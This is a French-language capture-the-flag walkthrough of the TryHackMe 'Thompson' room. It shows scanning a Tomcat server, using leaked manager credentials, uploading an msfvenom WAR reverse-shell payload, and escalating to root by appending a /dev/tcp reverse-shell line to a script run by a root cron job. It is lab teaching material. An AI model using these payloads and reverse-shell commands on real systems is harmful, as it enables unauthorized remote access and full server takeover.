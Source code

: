 ```yaml
---
title: Thompson (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Tomcat]
style: border
color: thm
comments: false
description: Exploitation d'un serveur Apache Tomcat
modified: 18/03/2025
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/bsidesgtthompson>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Visite du site](#2-visite-du-site)
* [3. Accès au serveur](#3-accès-au-serveur)
* [4. Flag utilisateur](#4-flag-utilisateur)
* [5. Élévation de privilèges](#5-élévation-de-privilèges)

---

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.216.88
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 15:39 CEST
Nmap scan report for 10.10.216.88
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endcapture %}
{% include elements/spoil.html %}

L'analyse par le scanner {% include dictionary.html word="NMAP" %} nous montre que la machine héberge un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur Apache Tomcat sur le port 8080.

Commençons donc par analyser le site.

## 2. Visite du site

Nous arrivons sur la page par défaut d'un serveur Apache.

{% include elements/figure_spoil.html image="/images/THM/20240830/VirtualBox_Kali Hack_30_08_2024_15_47_30.png" caption="Première connexion" %}

La tentative de connexion aux outils d'administration en utilisant des identifiants potentiels comme admin/admin ou tomcat/tomcat n'a pas fonctionné.

Lorsque nous annulons finalement l'authentification, nous arrivons sur une page d'erreur particulièrement verbeuse donnant des identifiants.

{% include elements/figure_spoil.html image="/images/THM/20240830/Capture_ecran_2024-08-30_401.png" caption="Identifiants dévoilés dans la page d'erreur" %}

## 3. Accès au serveur

En navigant, nous arrivons sur une page permettant de déployer des fichiers au format {% include dictionary.html word="WAR" %}

En faisant une recherche sur la dépôt Github [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), nous pouvons trouver une commande permettant de créer un fichier WAR malicieux permettant d'obtenir un *{% include dictionary.html word="reverse-shell" %}* :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

Après avoir créé la charge avec les données correspondant à notre machine et avoir mis le port (le même qu'indiqué dans `LPORT`) de notre machine en écoute avec {% include dictionary.html word="Netcat" %}, nous pouvons téléverser le fichier `reverse.war`, puis cliquer sur le nouveau lien "reverse" qui vient d'apparaître sur l'interface.

Nous sommes à présent connecter au serveur.

```bash
nc -lvnp 9000           
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 55446
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## 4. Flag utilisateur

Améliorons le shell obtenu pour faciliter la navigation :

{% gist ab3c791e25baa7b437d0324f6d3195af %}

L'utilisateur dont nous devons trouver les identifiants est Jack.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 jack
```

Les 3 derniers caractères `r-x` indique que n'importe quel utilisateur peut lire ou se déplacer dans le répertoire de l'utilisateur. Mieux encore, le flag utilisateur est également lisible. Tout comme un script `id.sh` qui est également exécutable par tout le monde.

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```

```bash
cat user.txt
39400c[...expurgé...]f181bf
```

## 5. Élévation de privilèges

L'analyse des autres fichiers présents dans le dossier personnel de Jack ne donne pas beaucoup d'informations. Le script permet d'écrire les informations d'un utilisateur dans le fichier test.txt

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt

cat id.sh
#!/bin/bash
id > test.txt

cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

 Cependant, en relançant la commande `ls -hl` un peu plus tard, nous observons que le fichier `test.txt` a changé d'horodatage il est donc plus que probable qu'une tâche planifiée tourne sur la machine pour lancer le script id.sh :

```bash
-rw-r--r-- 1 root root 39 Aug 30 07:34 test.txt
```

En analysant le fichier `/etc/crontab` nous pouvons constater qu'il y a bien un job tournant toutes les minutes, en tant que l'utilisateur root.

```bash
* * * * *   root    cd /home/jack && bash id.sh
```

En utilisant le site [Revshells](https://www.revshells.com/) nous pouvons créer une commande à ajouter au fichier `id.sh` pour obtenir un *{% include dictionary.html word="reverse-shell" %}* non plus en tant que "tomcat" mais cette fois "root"

```bash
echo 'sh -i >& /dev/tcp/10.0.0.1/9001 0>&1' >> id.sh
```

Mettons maintenant {% include dictionary.html word="Netcat" %} en attente sur le port 9001, et attendons le passage de la tâche programmée.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 44840
sh: 0: can't access tty; job control turned off
id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons obtenu les droits root sur la machine, il ne reste plus qu'à lire le fichier `/root/root.txt`

```bash
cat root.txt
d89d53[...expurgé...]e7ca3a
```

